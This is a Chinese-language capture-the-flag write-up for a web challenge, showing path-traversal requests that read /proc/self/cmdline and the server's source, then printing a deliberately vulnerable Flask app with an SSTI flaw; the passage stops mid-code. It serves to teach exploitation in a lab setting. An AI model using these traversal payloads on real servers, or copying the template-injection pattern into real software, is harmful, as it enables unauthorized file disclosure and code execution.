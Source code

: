 **其实这一题的考点是/proc目录的读取**

**查看系统启动时执行的命令：**

```
article?name=../../../proc/self/cmdline
```

![image-20220812144010868](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220812144010868.png)

发现server.py文件，查看该文件内容：

/proc/[pid]/cwd：通过cwd命令可以直接跳转到当前目录（网站目录）

```
article?name=../../../proc/self/cwd/server.py
```

![image-20220812143714112](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220812143714112.png)

可以发现文件中执行了 flag.py 和 key.py 这两个文件。通过F12查看源码可以更清楚的查看server.py的内容：

```python
#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session
 
app = Flask(__name__)
execfile('flag.py')
execfile('key.py')
 
FLAG = flag
app.secret_key = key
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None
    if n1code is not None:
        n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
        
    # ----------------------------下面的代码存在SSTI模板注入--------------------------
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
    template = None
    if session['n1code'] is not None:
        template = '''&lt;h1&gt;N1 Page&lt;/h1&gt; &lt;div class="row&gt; &lt;div class="col-md-6 col-md-offset-3 center"&gt; Hello : %s, why you don't look at our &lt;a href='/article?name=article'&gt;article&lt;/a&gt;? &lt;/div&gt; &lt;/div&gt; ''' % session['n1code']
        session['n1code'] = None
    return render_template_string(template)
 
@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")
@app.route('/article', methods=['GET'])
def article():
    error = 0
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'
    if page.find('flag')&gt;=0:          # 这里name参数过滤了flag关键词
        page = 'notallowed.txt'
    try:
```
